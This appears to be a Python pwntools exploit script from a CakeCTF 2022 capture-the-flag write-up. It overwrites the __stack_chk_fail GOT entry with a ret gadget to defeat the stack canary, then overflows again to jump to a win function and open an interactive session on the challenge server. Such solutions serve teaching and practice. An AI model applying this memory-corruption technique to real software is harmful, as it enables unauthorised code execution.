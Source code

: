 ```python
#"""
HOST = "pwn1.2022.cakectf.com"
PORT = 9003 
"""
HOST = "localhost"
PORT = 7777
#"""

if len(sys.argv) > 1 and sys.argv[1] == 'r':
	conn = remote(HOST, PORT)
else:
	conn = process(FILE_NAME)

elf = ELF(FILE_NAME)
addr_win = 0x4016ee
got_stack_chk_fail = elf.got["__stack_chk_fail"]
only_ret = 0x40101a

def write_cstr(data):
	conn.sendlineafter(": ", "1")
	conn.sendlineafter(": ", data)
	
def read_cstr():
	conn.sendlineafter(": ", "2")

def write_str(data):
	conn.sendlineafter(": ", "3")
	conn.sendlineafter(": ", data)

def read_str():
	conn.sendlineafter(": ", "4")

def exploit():
	payload = b"A"*0x20
	payload += p64(got_stack_chk_fail)
	payload += p64(0x8)
	payload += p64(0x8)
	write_cstr(payload)
	write_str(p64(only_ret)[:3])

	payload = b"\x00"*0x68
	payload += p64(addr_win)
	write_cstr(payload)
	
	conn.sendlineafter(": ", "99")
	
	conn.interactive()	

if __name__ == "__main__":
	exploit()	
```

